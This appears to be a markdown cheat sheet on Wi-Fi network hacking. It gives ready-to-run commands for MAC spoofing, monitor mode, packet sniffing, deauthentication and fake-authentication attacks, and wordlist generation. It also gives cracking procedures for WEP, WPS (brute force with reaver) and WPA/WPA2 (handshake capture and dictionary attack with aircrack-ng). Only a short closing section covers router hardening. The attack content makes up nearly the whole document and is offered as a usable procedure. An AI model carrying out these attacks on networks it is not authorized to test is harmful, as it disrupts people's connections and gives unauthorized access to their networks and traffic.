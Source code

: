 # Network Hacking Main Page

- [Changing MAC Address](#mac)
- [WIFI Sniffing](#snif)
- [De-auth Attack](#deauth)
- [Fake-auth Attack](#fakeauth)
- [Creating a Wordlist](#wordlist)
- [WIFI Password Craking](#wifipasscrack)
  - [WEP](#wep)
  - [WPS](#wps)
  - [WPA & WPA](#wpa)
- [Implement Security for Router](#router)
- [Network Inforamtion Gathering](#nig)

## Show available INTERFACE info
```bash
ifconfig
iwconfig
```

<a name="mac"/>

## Changing MAC adresse

**DESC** : *Change MAC adresse*

MAC = Media Access Control

```bash
ifconfig <INTERFACE> down
ifconfig <INTERFACE> hw ether <MAC_ADDRESS> # hw for hardware
ifconfig <INTERFACE> up
```

<a name="changewirelessmode"/>

## Changing wireless mode to Monitor

```bash
# step 1
ifconfig <INTERFACE> down
# step 2
airmon-ng check kill
# step 3
iwconfig <INTERFACE> mode monitor
# step 4
ifconfig <INTERFACE> up
```

<a name="snif"/>

## WIFI Sniffing

**DESC** : *`airodump-ng` is a packet sniffer program*
 - Must have a wifi key in wireless `monitor mode`
 - Use to capture packets within range
 - Display detailed info about networks
 - part of "aircrak-ng" suit

**USAGE** : `airodump-ng <INTERFACE>`

1. Must [change wireless mode](#changewirelessmode) : Managed to Monitor
2. Run `airodump-ng`

options :
- `--bssid <MAC_ADDRESS>` : Select MAC adresse to sniff
  - example
    - ```bash
      airodump-ng --bssid 00:11:22:33:44:55 --channel 2 --write save mon0`
      ```
- `--write <FILE_NAME>` : Save the sniffing to a file
  - Use [Wireshark]() to read the `.cap` file
- `--channel <CHANNEL_ID>`: Select channel 
- `--band` : Select frequency
  - "a" : use 5Gz only
  - "bg" : use 2.4Gz only
  - "n" : use both
  - "ac" : use lower than 6Gz
  -  example
     - ```bash
        airodump-ng --band abg mon0
        ```

Simple sniffing 2.4Gz
```bash
airodump-ng <INTERFACE>
```

<a name="deauth"/>

## De-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --deauth <#DEAUTH_PACKETS> -a <NETWORK_MAC> -c <TARGET_MAC> <INTERFACE>`

1. Run `aerodump-ng`
2. Run `aireplay-ng`

example : 
```bash
aireplay-ng --deauth 100000 -a 11:22:33:44:55:66 -c 00:11:22:33:44:55 mon0
```

<a name="fakeauth" />

## Fake-auth Attack with `aireplay-ng`

**USAGE** : `aireplay-ng --fakeauth <#FAKEAUTH_PACKETS> -a <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>`

example:
```bash
aireplay-ng --fakeauth 0 -a 11:22:33:44:55:66 -h 00:11:22:33:44:55 mon0
```

<a name="wordlist"/>

## Wordlist with `crunch`

**Desc** : Wordlist are used to bruteforce password, here is how to create our own wordlist

**USAGE** : `crunch <MIN> <MAX> <CHARACTERS> -t <PATERN> -o <FILE_NAME>`

example
```bash
crunch 6 8 123abc$ -t a@@@@b -o wordlist.txt
```

<a name="wifipasscrack"/>

## WIFI password cracking

<a name="wep"/>

### WEP

**DESC** : WEP is a very basics RC4 encryption method. that use a random Initialisation Vector (IV) of only from 24 bits to 128 bits\
WEP = Wired Equivalent Privacy\
`IV + Password = Key Stream`\
In order to get the Password we will perform statistics on packets\
IV is added at the beginning of each packet send to the router

#### If network is busy

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Analyse captured IVs by running
  ```bash
  aircrack-ng <FILE_NAME>.cap
  ```

#### If network is not busy

We will perform an association (not connection) to force the network to send IVs

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Capture a lot of `#Data` / IVs) and save them in a file <FILE_NAME>.cap
3. Do one [Fake Authentification Attack](#fakeauth)
4. Wait for an `ARP` packet, and use it to force network to create new IVs
    ```bash
    aireplay-ng --arpreplay -b <NETWORK_MAC> -h <INTERFACE_MAC> <INTERFACE>
    ```
5. Then Analyse captured IVs by running
    ```bash
    aircrack-ng <FILE_NAME>.cap
    ```
   
<a name="wps"/>

### WPS

**DESC** : WPS is not a type of encryption but it's a method to connect without entering password\
Used by some printer and easy connect with a WPS button on the router\
We will bruteforce the password\
Router must be on WPS not be configured "Push Button" or "PBC", only way to know is to test

1. [Change wireless mode](#changewirelessmode) to monitor
2. List WPS available
    ```bash
     wash --interface <INTERFACE>
     ```
3. Do Some (30) [Fake Authentification Attack](#fakeauth)
4. Bruteforce with `reaver`
    ```bash
    reaver --bssid <NETWORK_MAC> --channel <CHANNEL> --interface <INTERFACE> -vvv --no-associate
    ```

<a name="wpa"/>

### WPA & WPA2

**DESC** : WPA fixed WEP vulnerabilities, one way is to bruteforce the password with wordlist.\
The main idea is to catch the handshake to then bruteforce\
MIC = Message Integrity Code
This is the code we try to get correct by testing password from worlist and the data of the handshake (SP address, STA Address, AP Nonce, STA Nonce, EAPOL, Payload).

1. [Change wireless mode](#changewirelessmode) to monitor
2. [Sniff packets](#snif) on a specific bssid and channel (Wait for capturing the handshake) and save them in a file <FILE_NAME>.cap
3. Do some (4) [Fake Authentification Attack](#fakeauth)
    1. force the handshake on one user
4. With [wordlist](#wordlist) run `aircrack-ng`
    ```bash
    aircrack-ng <FILE_NAME>.cap -w <WORDLIST_FILE>
    ```

<a name="router"/>

## Implement Security for Router

Make sur you set WPA2 as encryption
Make sur you password is long with capital leters and special characters
Make sur to desable WPS

Find router ip
```bash
[Windows]
Get-NetRoute

[Linux]
ip route
```

<a name="nig"/>

## Network Inforamtion Gathering

With `netdiscover`
```bash
netdiscover -r <IP_RANGE>

example:
netdiscover -r 192.8.4.1/24
```

With `zenmap`, a GUI for `nmap`
1. Set an IP range in the target field
2. Select a Profile
3. Run scan
